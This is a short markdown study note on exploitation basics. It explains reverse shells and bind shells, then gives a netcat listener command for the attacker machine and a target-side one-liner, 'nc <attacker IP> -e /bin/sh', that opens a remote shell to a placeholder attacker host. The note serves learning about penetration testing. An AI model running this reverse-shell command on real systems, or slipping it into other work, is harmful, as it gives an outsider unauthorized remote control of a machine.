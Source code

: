 # Exploitation Basics

## Reverse Shell vs Bind Shell

**Reverse Shell** : The target connects to the attacker.

**Bind Shell** : The attacker connects to the target.

### Reverse Shell

=== "Attacker Machine"

    ```sh
    nc -nvlp 4444
    ```

=== "Target Machine"

    ```sh
    nc <attacker IP> -e /bin/sh
    ```